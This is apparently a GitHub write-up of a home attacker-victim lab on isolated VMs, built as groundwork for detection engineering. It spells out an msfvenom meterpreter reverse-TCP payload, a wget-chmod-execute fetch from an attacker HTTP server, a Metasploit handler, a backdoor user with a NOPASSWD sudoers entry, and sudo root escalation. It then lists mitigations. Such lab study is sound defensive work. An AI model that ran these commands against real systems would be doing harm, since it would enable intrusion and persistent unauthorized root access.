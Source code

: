 # ATTACKER-DEFENDER LAB

Author: Bobo Nikolov
Date: 27-10-2025
Status: In Progress (Defender / SecurityOnion phase next)


---


### Objective
Build isolated attacker <> victim lab to demonstrate reconnaissance, initial access, execution, persistence, and privilege escalation — then add a defender (SecurityOnion) to capture telemetry and create detections.

### Architecture and Scope
"lab_attacker" - Kali Linux(Internal Network(labnet)/NAT)IP 10.10.10.10
"lab_victim" - Ubuntu Linux(Internal Network(labnet)/Internal Network(intnet))IP 10.10.10.20
"Network" - Internal Network only(Isolated)
"Snapshot" - Created before testing and reverted again for repeatability.

NOTE: All work is performed on my VM's only!


---


  ## ENUMERATION 
  
(In linux terminal)Run:
nmap -sS -sV 10.10.10.20

 ![Enumeration](Projects/attack-defend-lab/Evidence/2025-10-27_05-52_AM_Screenshot_Enumeration_.png)


---


  ## INITIAL ACCESS AND EXECUTION

 ### Summary
Created a small Linux meterpreter ELF payload on attacker host, served it via HTTP server, fetched and executed it on the victim, then handled the incoming meterpreter session from Metasploit.

 ### Artifacts / screenshots
Payload creation: 

 ![Payload creation](Projects/attack-defend-lab/Evidence/2025-10-27_15-32-08_Payload_Creation_Initial_Access_Execution.png)

Serving payload:

 ![Serving payload](Projects/attack-defend-lab/Evidence/2025-10-27_15-38-08_Serving_Payload_Initial_Access_Execution.png)

Payload downloaded on victim: 

 ![Payload on victim](Projects/attack-defend-lab/Evidence/2025-10-27_15-42-04_Payload_On_Victim_Initial_Access_Execution.png)

Exploit/run and handler: 

 ![Exploit run & handler](Projects/attack-defend-lab/Evidence/2025-10-27_15-47-45_Exploit_Run_And_Waiting_Initial_Access_Execution.png)

 ![Victim ran payload](Projects/attack-defend-lab/Evidence/2025-10-27_15-55-57_Victim-Ran-Payload_Initial-Access-Execution.png)

Successful execution(meterpreter/shell proof):

 ![Success / meterpreter proof](Projects/attack-defend-lab/Evidence/2025-10-27_15-58-31_Successful-Execution_Initial-Access-Execution.png)

 ### What I did
Generated a Linux ELF reverse-TCP payload on the attacker:
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -O shell32.elf

 ### Served the payload from attacker
python3 -m http.server 8000 --bind 10.10.10.10

 ### On the victim fetched and executed it 
wget http://10.10.10.10:8000/shell32.elf -O /tmp/shell && chmod +x /tmp/shell

 ### Started a multi handler on Metasploit
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST 10.10.10.10
set LPORT 4444


---


   ## PERSISTANCE
   
 ### Summary
To demonstrate persistance detection and to create realistic defender telemetry for the upcoming SecurityOnion phase, a benign backdoor user was created and a sudoers entry added. All were documented and snapshot was reverted.

 ### Artifacts / Screenshots
-Persistance (new user created): 

 ![Persistence - new user](Projects/attack-defend-lab/Evidence/2025-10-27_17-59-25_Persistance-New-User_Persistance.png)

 ### Commands Executed
sudo useradd -, -s /bin/bash backdoor_user //Creating a new user
echo 'backdoor_user:P@ssword123!' | sudo chpasswd //Setting a password

// Add sudoers entry (NOPASSWD) to simulate privilege-capable persistence

echo 'backdoor_user ALL=(ALL) NOPASSWD:ALL' | sudo tee /etc/sudoers.d/backdoor_user
sudo chmod 440 /etc/sudoers.d/backdoor_user


---


   ## PRIVILEGE ESCALATION
   
 ### Summary
After intitial access, local privilege escalation was demonstrated - minimal proof (whoami / id) captured to validate root access. This was performed only to verify impact for detection engineering.

 ### Artifact / Screenshot
-Privilege escalation(root obtained): 

 ![Privilege escalation (root)](Projects/attack-defend-lab/Evidence/2025-10-27_18-49-33_Privilege-Escalation.png)

 ### Proof commands / notes
// From the interactive shell on meterpreter > shell
whoami
id

//In some cases a known local vector was used and 'sudo /bin/bash' or similar verified root:
sudo /bin/bash
whoami //lead to root


---


   ## CONCLUSION

This lab demonstrated a complete attacker workflow in an isolated environment: reconnaissance, payload creation and delivery, successful remote code execution, a persistence demonstration, and local privilege escalation (proof-of-concept). The aim was not to cause damage but to produce realistic telemetry and artifacts that a defender can use to tune detections and playbook responses.

The environment was fully isolated and snapshotted before testing; all changes were reverted after evidence capture. This project serves as a foundation for the defender phase (SecurityOnion), where I will ingest network and host telemetry and author detection rules.


---


   ## LESSION'S LEARNED AND MITIGATION

  ### Takeaways
  
- Simple file-download + execute flows are a high-risk vector (e.g. `wget` + `chmod` + run). Prevent by restricting outbound HTTP to unapproved hosts and enforcing execution policies.
- Creation of sudoers/NOPASSWD entries is a common persistence pattern — monitor `/etc/sudoers.d/` and user creation events.
- Local privilege escalation vectors (SUID binaries, misconfigured services) remain a rapid path to full compromise — remove unnecessary SUID/privileged binaries and harden kernel/service updates.

 ### Recommended mitigation
  
- Block unneeded inbound services; harden public-facing services.
- Enforce least privilege and MFA for administrative access.
- Instrument hosts with sysmon/auditd and forward to your SIEM; create alerts for: unexpected `wget`/`curl` + `chmod +x`, new `/etc/sudoers.d/` files, and new user creation.
- Add network egress restrictions to limit direct payload fetch from attacker-controlled HTTP servers.


---


  ### Next steps (roadmap)

- SecurityOnion integration (planned): deploy sensor/manager, ingest Zeek/Suricata logs, simulate the attack again, and capture detection telemetry.  
- Detection engineering: write Sigma/Suricata rules and Splunk/SO correlation searches for this scenario.  
- Lateral movement (optional): expand the lab to include a second internal host to demonstrate lateral movement and network-based detection. (WIP — planned for next iteration)


---


  ## Appendix – Commands & Artifacts

Important commands used (sanitized)

```bash
# Recon
nmap -sS -sV 10.10.10.20

# Payload creation
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell32.elf

# Serve payload
python3 -m http.server 8000 --bind 10.10.10.10

# Victim (lab-only)
wget http://10.10.10.10:8000/shell32.elf -O /tmp/shell && chmod +x /tmp/shell && /tmp/shell

# Persistence (lab-only)
sudo useradd -m -s /bin/bash backdoor_user
echo 'backdoor_user:Password123!' | sudo chpasswd
echo 'backdoor_user ALL=(ALL) NOPASSWD:ALL' | sudo tee /etc/sudoers.d/backdoor_user
sudo chmod 440 /etc/sudoers.d/backdoor_user



